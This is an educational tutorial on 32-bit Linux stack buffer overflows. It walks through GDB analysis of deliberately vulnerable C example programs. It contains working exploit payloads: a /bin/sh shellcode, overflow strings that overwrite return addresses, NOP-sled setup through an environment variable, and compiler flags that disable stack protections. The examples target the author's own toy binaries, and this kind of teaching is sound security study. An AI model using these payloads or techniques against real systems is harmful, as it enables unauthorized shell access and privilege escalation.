






# Overflow 2

### A Little Review

We learned about the basics of binaries in Overflow 1. If you have not read through Overflow 1 or forgot most of it, I recommend that you review a little before reading on. The important thing we need to remember is that functions vulnerable to overflow such as gets(), memcpy, and strcpy() do not perform boundary checks before executing. They also write data towards the base of the stack (higher memory addresses).

### EIP Register

The EIP register or Instruction Pointer is a register that always contains the address of the next instruction to be executed. EIP cannot be modified directly. However, it can be modified indirectly when functions are called or when jumps are made. Notice how EDB puts a green arrow next to memory address specified by the EIP register.



Because the EIP register points to the NEXT instruction that will be executed, the instruction has not yet been executed. This is why I told you in the previous lesson that you have to refer to the next image to see the propagated changes in the register and memory. While learning about all of the concepts and interactions of EIP register itself is not very interesting, executing arbitrary instructions by exploiting the EIP register can be ;).

### Functions

Most programming languages are built on functions. C (and C++/C#) is no exception. Any compiled program is essentially a collection of functions calling each other to perform a certain task. In fact, the main component of a C program is a function called main() if you haven't noticed. To better understand functions, we will create a program that has more than just the main() function.

```c
/*Example 3*/
#include <stdio.h>
#include <string.h>

int func(int x)
{
	printf("%d\n", x);
}

int main()
{
	printf("Start\n");
	func(15);
	printf("End\n");
}
```

The program above does very simple and straightforward things. It prints out "Start" and calls another function name func() while passing it the integer 15. Func() takes the integer and prints it out. Then, the program prints out "End." We need to analyze how the function calls work by looking at the memory and registers in detail.



Notice in figure 2 that the structure of the program stored in the memory is like the file. 0804:844c - 0804:8466 is func() and 0804:8467-0804:8495 is main(). Files are loaded from lower memory addresses to higher memory addresses (which makes more logical sense). The call at 0804:8483 is calling func(), meaning that the mov before is passing it an integer argument of 15. Again, I am not going to continue to pester you with assembly code. Instead, we will look at the memory before and after the function call.

' in ex3")

The before image was taken right after the execution of 0804:847c. The integer 15 (0F) has just been moved into the memory at ESP. The after image was taken right after a step from 0804:8483 (we would now be in the function func() and the green arrow would point to 0804:844c). Notice that the value pushed into the memory is the address of the instruction after "call 0x08004844c". 08048488 is the address the program is going to jump to after func() completes. We call this the return address. We can generalize the stack appearance after a function call.

```
Lower Memory Address

|00000000|		ESP of new function
**********		(omitted data)
|00000000|		Start of new function's allocated memory
|00000000|		Saved EBP (from push EBP)
|00000000|		Return Address (saved EIP)
|00000000|		Argument 1
**********		(omitted data)
|00000000|		Last Argument (bottom of stack)

Higher Memory Address
```

If you are already formulating a plan on how to exploit function returns and calls, you are one step closer to becoming a true hacker :p. However, we need to learn something else before proceeding to exploit the binary.

### From E to G

So far, we have been using a graphical debugging tool known as EDB. However, that debugger is not as versatile or as powerful as GDB: the GNU Project debugger. GDB comes with some Linux distributions. We will replicate the disassembly and analysis of ex3 in GDB.

```
root@kali:~/Desktop# gdb
(gdb) file ex3
Reading symbols from /root/Desktop/ex3...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048467 <+0>:		push   ebp
   0x08048468 <+1>:		mov    ebp,esp
   0x0804846a <+3>:		and    esp,0xfffffff0
   0x0804846d <+6>:		sub    esp,0x10
   0x08048470 <+9>:		mov    DWORD PTR [esp],0x8048534
   0x08048477 <+16>:	call   0x8048330 <puts@plt>
   0x0804847c <+21>:	mov    DWORD PTR [esp],0xf
   0x08048483 <+28>:	call   0x804844c <func>
   0x08048488 <+33>:	mov    DWORD PTR [esp],0x804853a
   0x0804848f <+40>:	call   0x8048330 <puts@plt>
   0x08048494 <+45>:	leave
   0x08048495 <+46>:	ret
End of assembler dump.
(gdb) disassemble func
Dump of assembler code for function func:
   0x0804844c <+0>:		push   ebp
   0x0804844d <+1>:		mov    ebp,esp
   0x0804844f <+3>:		sub    esp,0x18
   0x08048452 <+6>:		mov    eax,DWORD PTR [ebp+0x8]
   0x08048455 <+9>:		mov    DWORD PTR [esp+0x4],eax
   0x08048459 <+13>:	mov    DWORD PTR [esp],0x8048530
   0x08048460 <+20>:	call   0x8048320 <printf@plt>
   0x08048465 <+25>:	leave
   0x08048466 <+26>:	ret
End of assembler dump.
(gdb) break *0x0804847c
Breakpoint 1 at 0x804847c
(gdb) run
Starting program: /root/Desktop/ex3
Start

Breakpoint 1, 0x0804847c in main ()
(gdb) si
0x08048483 in main ()
(gdb) x /20x $esp
0xbffff4e0:	0x0000000f	0xb7ff0590	0x080484bb	0xb7fbeff4
0xbffff4f0:	0x080484b0	0x00000000	0xbffff578	0xb7e75e66
0xbffff500:	0x00000001	0xbffff5a4	0xbffff5ac	0xb7fe0860
0xbffff510:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff520:	0x00000001	0xbffff560	0xb7fefc16	0xb7fffac0
(gdb) si
0x0804844c in func ()
(gdb) x /20x $esp
0xbffff4dc:	0x08048488	0x0000000f	0xb7ff0590	0x080484bb
0xbffff4ec:	0xb7fbeff4	0x080484b0	0x00000000	0xbffff578
0xbffff4fc:	0xb7e75e66	0x00000001	0xbffff5a4	0xbffff5ac
0xbffff50c:	0xb7fe0860	0xb7ff6821	0xffffffff	0xb7ffeff4
0xbffff51c:	0x0804826d	0x00000001	0xbffff560	0xb7fefc16
```

Line 2: Loading the file into GDB.

Line 4: Setting the output ASM to intel syntax (GDB's default is AT&T).

Line 5: Disassemble main().

Line 20: Disassemble func().

Line 32: Make a breakpoint at 0x0804847c (before copying 15 into memory).

Line 34: Run the program.

Line 39: Step into (execute one line of instruction).

Line 41: View the memory starting at the ESP stack pointer in hex format.

Line 47: Step into (execute one line of instruction).

Line 49: View the memory starting at the ESP stack pointer in hex format.

Do you notice how it is possible to do the same thing with GDB? You might wonder how GDB is more powerful. Primarily, GDB is powerful because it is highly programmable and can interface with Python and other Linux tools. While EDB is good for debugging and assembling programs, GDB is faster and more effective for our purpose. Plus, using it makes you more awesome.

### Mathematically Computing Overflows

Let's look at an example of a vulnerable application.

```c
/*Example 4*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int func(int auth, char *str)
{
	char data[100];
	strcpy(data, str);
	if(auth == 1)
	{
		printf("Secret!\n");
	}
	else
	{
		exit(0);
	}
}

int main(int argc, char *argv[])
{
	if(argc != 2)
	{
		exit(0);
	}
	func(0, argv[1]);
}
```

Our initial reaction might be to use the generalized function call stack to compute the number of padding characters necessary. However, this is not exactly the case. While the program does allocate 100 bytes for the character, it also allocates additional bytes for the function itself. We need to analyze further using GDB.

```
(gdb) disassemble func
Dump of assembler code for function func:
   0x0804847c <+0>:		push   ebp
   0x0804847d <+1>:		mov    ebp,esp
   0x0804847f <+3>:		sub    esp,0x88
   0x08048485 <+9>:		mov    eax,DWORD PTR [ebp+0xc]
   0x08048488 <+12>:	mov    DWORD PTR [esp+0x4],eax
   0x0804848c <+16>:	lea    eax,[ebp-0x6c]
   0x0804848f <+19>:	mov    DWORD PTR [esp],eax
   0x08048492 <+22>:	call   0x8048340 <strcpy@plt>
   0x08048497 <+27>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804849b <+31>:	jne    0x80484ab <func+47>
   0x0804849d <+33>:	mov    DWORD PTR [esp],0x8048580
   0x080484a4 <+40>:	call   0x8048350 <puts@plt>
   0x080484a9 <+45>:	jmp    0x80484b7 <func+59>
   0x080484ab <+47>:	mov    DWORD PTR [esp],0x0
   0x080484b2 <+54>:	call   0x8048370 <exit@plt>
   0x080484b7 <+59>:	leave
   0x080484b8 <+60>:	ret
End of assembler dump.
```

Notice that there is a new instruction here called lea. Lea simply calculates an addition or subtraction to memory and moves it into a register. The program allocates 136 bytes in the beginning (0x88 = 136). However, this is not very helpful, as we know that the 100 bytes allocated for the text won't be placed exactly at the top where the ESP is pointing. We can use the lea instruction to determine the location of the buffer instead. Lea in this program is part of the strcpy() function. It is indicating the location for strcpy() to start working. The EBP we know is currently 136 bytes away from ESP. Lea just told us that strcpy() will start copying 108 bytes away from EBP. Lucky us. We now know that the start of the buffer is 28 bytes from ESP. We also know that we are only dealing 108 bytes above the stored EBP value. This makes it easy to apply the general function stack appearance. Starting at the top of the stack, it is 28 bytes to the buffer. The buffer is only 100 bytes meaning that there is an additional 8 bytes we need to fill, making the total padding 108 bytes. To get to argument 1, we also need to overwrite the saved EBP value and return address (segmentation fault here we come). This makes an additional 8 bytes for a total padding of 116 bytes. Finally. We can send 116 bytes of anything and then a 1 to perform this buffer overflow.



Magic. This is pure magic. Let's look at all the Bs in the memory using GDB.

```
(gdb) break *0x08048497
Breakpoint 1 at 0x8048497
(gdb) run "`python -c 'print "B"*116 + "\x01"'`"
Starting program: /root/Desktop/ex4 "`python -c 'print "B"*116 + "\x01"'`"

Breakpoint 1, 0x08048497 in func ()
(gdb) x /50x $esp
0xbffff3e0:	0xbffff3fc	0xbffff697	0xb7ffeff4	0xbffff4e0
0xbffff3f0:	0xb7fffac0	0xbffff4b4	0xb7feb662	0x42424242
0xbffff400:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff410:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff420:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff430:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff440:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff450:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff460:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff470:	0x00000001	0xbffff697	0x0804850b	0xb7fbeff4
0xbffff480:	0x08048500	0x00000000	0xbffff508	0xb7e75e66
0xbffff490:	0x00000002	0xbffff534	0xbffff540	0xb7fe0860
0xbffff4a0:	0xb7ff6821	0xffffffff
(gdb) continue
Continuing.
Secret!

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

If you haven't caught on as to why I use Bs instead of As, it's because B is represented by 42 in hex. But aside from that, I will direct your attention to what we overwrote that is causing the segmentation fault. At 0xbffff46c (last WORD of the 0xbffff460 line), the return address has been replaced by the magnificent 0x42424242. Obviously 0x42424242 is not a valid memory address for this program, so the program basically crashes (and possibly burns). However, what if replace the return address with something that is actually valid? Would the program still execute instructions at the new return address?

### Messing With the Return

Let's look at a modified version of example 4.

```c
/*Example 5*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void lonely(void)
{
	printf("Better secret!!\n");
}

int func(int auth, char *str)
{
	char data[32];
	strcpy(data, str);
	if(auth == 1)
	{
		printf("Secret!\n");
	}
	else
	{
		exit(0);
	}
}

int main(int argc, char *argv[])
{
	if(argc != 2)
	{
		exit(0);
	}
	func(0, argv[1]);
}
```

The program works exactly the same as example 4, except there is another function that is never called. First, let's get an output of "Secret!" using the skills that we have learned.

```
(gdb) set disassembly-flavor intel
(gdb) file ex5
Reading symbols from /root/Desktop/ex5...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048300  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  puts
0x08048350  puts@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  deregister_tm_clones
0x080483f0  register_tm_clones
0x08048430  __do_global_dtors_aux
0x08048450  frame_dummy
0x0804847c  lonely
0x08048490  func
0x080484ca  main
0x08048500  __libc_csu_fini
---Type <return> to continue, or q <return> to quit---
0x08048510  __libc_csu_init
0x0804856a  __i686.get_pc_thunk.bx
0x08048570  _fini
(gdb) disassemble func
Dump of assembler code for function func:
   0x08048490 <+0>:		push   ebp
   0x08048491 <+1>:		mov    ebp,esp
   0x08048493 <+3>:		sub    esp,0x38
   0x08048496 <+6>:		mov    eax,DWORD PTR [ebp+0xc]
   0x08048499 <+9>:		mov    DWORD PTR [esp+0x4],eax
   0x0804849d <+13>:	lea    eax,[ebp-0x28]
   0x080484a0 <+16>:	mov    DWORD PTR [esp],eax
   0x080484a3 <+19>:	call   0x8048340 <strcpy@plt>
   0x080484a8 <+24>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x080484ac <+28>:	jne    0x80484bc <func+44>
   0x080484ae <+30>:	mov    DWORD PTR [esp],0x80485a0
   0x080484b5 <+37>:	call   0x8048350 <puts@plt>
   0x080484ba <+42>:	jmp    0x80484c8 <func+56>
   0x080484bc <+44>:	mov    DWORD PTR [esp],0x0
   0x080484c3 <+51>:	call   0x8048370 <exit@plt>
   0x080484c8 <+56>:	leave
   0x080484c9 <+57>:	ret
End of assembler dump.
```

Seems easy enough. Convert 0x28 to decimal and you'll get 40 bytes. Add an additional 8 bytes for the saved EBP value and return address for a total padding of 48 bytes. Let's see if this works.



Didn't this just get a whole lot easier once you understand how it works? However, we still received a segmentation fault. In addition, the function that was never called is still not called. What if we wanted both the secret AND the better secret? The solution is very simple, but we need to learn something about a thing called endianness.

### Endianness

There are two types of endian formats. Endian formats are simply the order in which data is stored. Big endian stores the most significant byte in the smallest address while little endian stores the least significant byte in the smallest address. The endianness depends completely on the processor and not the operating system. What we need to know is that memory data created by the x86 processor is represented in little endian. Let's look at how strcpy copies things into the memory.

```
0xbffff460:	0x42424242	0x42424242	0x42424242	0x42424242
			<----1----  <----2----  <----3----  <----4----
0xbffff470:	0x00000001	0xbffff697	0x0804850b	0xb7fbeff4
			<----5----
```

Notice how it goes from right to left inside of a WORD? This is why we simply need a "\x01" to change the whole WORD to a 1 rather than "\x00\x00\x00\x01". What this also means is that the bytes need to be reversed when we perform overflows where we are not only using one letter or manipulating one thing.

### Back to Return

Let's get back to example 5. We already know the structure of a stack after a function call. The return address is the one right above argument 1. What we want the program to do is to run the lonely() function after finishing func(). To do this, we simply need to modify the return address and point it to where lonely() is in the memory. This shouldn't be too hard any more.

```
(gdb) disassemble lonely
Dump of assembler code for function lonely:
   0x0804847c <+0>:		push   ebp
   0x0804847d <+1>:		mov    ebp,esp
   0x0804847f <+3>:		sub    esp,0x18
   0x08048482 <+6>:		mov    DWORD PTR [esp],0x8048590
   0x08048489 <+13>:	call   0x8048350 <puts@plt>
   0x0804848e <+18>:	leave
   0x0804848f <+19>:	ret
End of assembler dump.
```

Lonely is located at 0x0804847c. We need to reverse the bytes because of the little endian structure employed by Intel processors. 0x0804847c would become "\x7c\x84\x04\x08". We knew that 48 bytes of padding took us to argument 1. However, we don't want to overwrite the return address with Bs any more. We want to overwrite it with lonely()'s address. Since the saved return address is right before argument 1, we now only need 44 bytes of padding followed by the new memory address and a "\x01" to complete this overflow.

 in ex5 using overflow")

You might wonder why a segmentation fault still occurs. This is still due to the fact that the program is not returning to the main function and exiting properly. The original return address was pointed at the end of main but we've moved it to point to lonely(). After lonely() completes, it returns to an invalid address outside of func().

### Shellcode

We know we can perform all of the fancy overflows and stuff but what if we wanted to compromise a whole system by using overflow? To do this, we will need the assistance of a shellcode. A shell code is a minute piece of code (usually no larger than 200 bytes) that generally executes a command shell on the machine. In Linux, it would be bin/sh. However, a shellcode can perform anything the attacker wants because it has the same privilege as the process used to spawn it. Shell-storm.org has a list of shellcodes for different operating systems as well as processor architectures. I will use one of them as an example. First, we'll need a program to test it on.

```c
/*Example 6*/
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
	if(argc != 2)
	{
		exit(0);
	}
	char buffer[64];
	strcpy(buffer, argv[1]);
}
```

This program does virtually nothing. However, it is still vulnerable to shellcode. We could try to have the program execute shellcode in the buffer. However, most compilers are smart enough to prevent this from happening. We need to somehow load the shellcode into the memory, find its address, and then execute it. The shell code we are going to use is shown below.

```
"\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"
```

It is only 32 bytes and executes a shell. 32 bytes is less than the buffer of 64 bytes so we could easily just put the shell into the buffer and overwrite the return address with starting location of the shell. This is where things start to get really tricky. First, the some parts of the stack are protected from execution. We will bypass this by compiling the program with stack execution enabled.

```
gcc -fno-stack-protector -z execstack -o ex6 ex6.c
```

Let's analyze this program using GDB.

```
(gdb) set disassembly-flavor intel
(gdb) file ex6
Reading symbols from /root/Desktop/ex6...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804844c <+0>:		push   ebp
   0x0804844d <+1>:		mov    ebp,esp
   0x0804844f <+3>:		and    esp,0xfffffff0
   0x08048452 <+6>:		sub    esp,0x50
   0x08048455 <+9>:		cmp    DWORD PTR [ebp+0x8],0x2
   0x08048459 <+13>:	je     0x8048467 <main+27>
   0x0804845b <+15>:	mov    DWORD PTR [esp],0x0
   0x08048462 <+22>:	call   0x8048340 <exit@plt>
   0x08048467 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804846a <+30>:	add    eax,0x4
   0x0804846d <+33>:	mov    eax,DWORD PTR [eax]
   0x0804846f <+35>:	mov    DWORD PTR [esp+0x4],eax
   0x08048473 <+39>:	lea    eax,[esp+0x10]
   0x08048477 <+43>:	mov    DWORD PTR [esp],eax
   0x0804847a <+46>:	call   0x8048320 <strcpy@plt>
   0x0804847f <+51>:	leave
   0x08048480 <+52>:	ret
End of assembler dump.
(gdb) break *0x0804847f
Breakpoint 1 at 0x804847f
(gdb) run $(python -c 'print "B"*64')
Starting program: /root/Desktop/ex6 $(python -c 'print "B"*64')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff460:	0xbffff470	0xbffff6cc	0xbffff487	0x00000001
0xbffff470:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4b0:	0x08048400	0x00000000	0xbffff538	0xb7e75e66
0xbffff4c0:	0x00000002	0xbffff564	0xbffff570	0xb7fe0860
0xbffff4d0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4e0:	0x00000001	0xbffff520	0xb7fefc16	0xb7fffac0
0xbffff4f0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) break *0x0804844d
Breakpoint 2 at 0x804844d
(gdb) run $(python -c 'print "B"*64')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/Desktop/ex6 $(python -c 'print "B"*64')

Breakpoint 2, 0x0804844d in main ()
(gdb) x /40x $esp
0xbffff4b8:	0xbffff538	0xb7e75e66	0x00000002	0xbffff564
0xbffff4c8:	0xbffff570	0xb7fe0860	0xb7ff6821	0xffffffff
0xbffff4d8:	0xb7ffeff4	0x0804826d	0x00000001	0xbffff520
0xbffff4e8:	0xb7fefc16	0xb7fffac0	0xb7fe0b58	0xb7fbeff4
0xbffff4f8:	0x00000000	0x00000000	0xbffff538	0xdb0169dd
0xbffff508:	0xea54bfcd	0x00000000	0x00000000	0x00000000
0xbffff518:	0x00000002	0x08048360	0x00000000	0xb7ff59c0
0xbffff528:	0xb7e75d8b	0xb7ffeff4	0x00000002	0x08048360
0xbffff538:	0x00000000	0x08048381	0x0804844c	0x00000002
0xbffff548:	0xbffff564	0x080484a0	0x08048490	0xb7ff0590
```

From breakpoint 2, we discovered that 0xbffff538 is the saved EBP and that 0xb7e75e66 is the return address. This means we have 76 bytes before we need to overwrite the return address. Seems pretty easy. Well, it's not :p. We will now put the shellcode at the beginning and fill the rest with Bs. We'll also replace the return address with Bs just to make sure it works.

```
(gdb) break *0x0804847f
Breakpoint 1 at 0x804847f
(gdb) run $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*48')
Starting program: /root/Desktop/ex6 $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*48')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff450:	0xbffff460	0xbffff6bc	0xbffff477	0x00000001
0xbffff460:	0xc389c031	0x80cd17b0	0x6852d231	0x68732f6e
0xbffff470:	0x622f2f68	0x52e38969	0x8de18953	0x80cd0b42
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4b0:	0x00000000	0xbffff554	0xbffff560	0xb7fe0860
0xbffff4c0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4d0:	0x00000001	0xbffff510	0xb7fefc16	0xb7fffac0
0xbffff4e0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Can you spot the difference? ESP was originally pointed to 0xbffff460 when we injected 64 Bs. Now when we add the shellcode, it somehow points to 0xbffff450. This change is caused by the addition of the shellcode and must be taken into account when we point the return address to the shellcode. Size changes of strcpy beyond the buffer can change the ESP value. However, as long as we keep the size the same, the shellcode will still be located at 0xbffff460. We will do the same procedure as before except we will replace the last 4 bytes with the address of the shellcode.

```
(gdb) run $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*44 + "\x60\xf4\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /root/Desktop/ex6 $(python -c 'print "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80" + "B"*44 + "\x60\xf4\xff\xbf"')

Breakpoint 1, 0x0804847f in main ()
(gdb) x /40x $esp
0xbffff450:	0xbffff460	0xbffff6bc	0xbffff477	0x00000001
0xbffff460:	0xc389c031	0x80cd17b0	0x6852d231	0x68732f6e
0xbffff470:	0x622f2f68	0x52e38969	0x8de18953	0x80cd0b42
0xbffff480:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff490:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff4a0:	0x42424242	0x42424242	0x42424242	0xbffff460
0xbffff4b0:	0x00000000	0xbffff554	0xbffff560	0xb7fe0860
0xbffff4c0:	0xb7ff6821	0xffffffff	0xb7ffeff4	0x0804826d
0xbffff4d0:	0x00000001	0xbffff510	0xb7fefc16	0xb7fffac0
0xbffff4e0:	0xb7fe0b58	0xb7fbeff4	0x00000000	0x00000000
(gdb) continue
Continuing.
process 8698 is executing new program: /bin/dash
#
```

Yes! We have spawned a shell (the # means we have spawned a shell. We can now execute shell commands). So now all we need to do is to execute it in the real non-GDB environment and it should work right? Wrong.



Why doesn't it work in the real Linux environment? It worked perfectly in GDB. The reason is because GDB's environment is slightly different from the real one. What works in GDB might not work in the actual environment because of slight variations. However, we can counter this and get the shell to work in the real environment as well.

### NOP-sled to the Rescue

There is one foundational assembly instruction that I have not yet taught you. I've saved it for this. In assembly, there is an instruction called NOP. NOP does absolutely nothing. It takes up space in the memory but the processor essentially skips it. It even means no operation because literally, there is no operation that this instruction tells the processor to perform. NOP can be represented using the hex character "\x90". How NOP-sled rescue us in the case of overflows and shellcodes? Since the real operating environment differs from the GDB environment, we need a way to make sure that the entire shellcode is execute and no illegal instructions are executed. To do this, we will put our shellcode in between NOPs and Bs. Let's look at the format.

```
Lower Memory Address

(NOPs)
(Shellcode)
(Bs)
(Overwritten return address)

Higher Memory Address
```

What is so good about using NOPs? If we use a NOP-sled, we no longer need to point the return address to the exact location of the shellcode. We simply point it to the middle of the NOP-sled located higher in the stack. This will make sure that the ENTIRE shellcode is executed properly and that no memory violations will occur. However, we only have 76 bytes to mess with. That's not enough. If we had over 100, we could probably use the buffer itself. In this case, we need another way to put more NOPs into the memory before the shellcode. To do this, we can load the shellcode and NOPs into an environmental variable.

```
export shell=$(python -c 'print "\x90"*512 + "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"')
```

I've added 512 bytes before the shellcode so we can adjust the return address later. We need a way to find the memory of the variable. This simple C program will help us.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("%p\n", getenv("shell"));
}
```

To construct our final overflow attack, we need to add shell to the environmental variables (memory). Then, we will run our shell program to find the memory address of shell. Finally, we will run ex6 with 76 Bs and a return address that matches the one outputted by our shell program. If errors occur, we will adjust the value of the return address to higher memory addresses until it works.



Notice that we had to adjust the return address to a value in the middle of the NOP-sled to get a shell.

### I Dislike Math

If you're reading this, you probably like math enough to not die from reading all of that. However, if you're lazy and you just don't want to do math, you can simply load the shellcode into the memory and overflow everything with the return address. The program will do whatever it does and eventually get to the return address.


Magic. Pure magic.

### Further Readings and References

"Linux Buffer Overflow" - http://samsclass.info/123/proj14/lbuf1.htm

"GDB Documentation" - http://www.gnu.org/software/gdb/documentation/

"Shellcode Database" - http://shell-storm.org/shellcode/

Tool: Kali Linux - http://www.kali.org/downloads/

Tool: GDB - http://www.gnu.org/software/gdb/
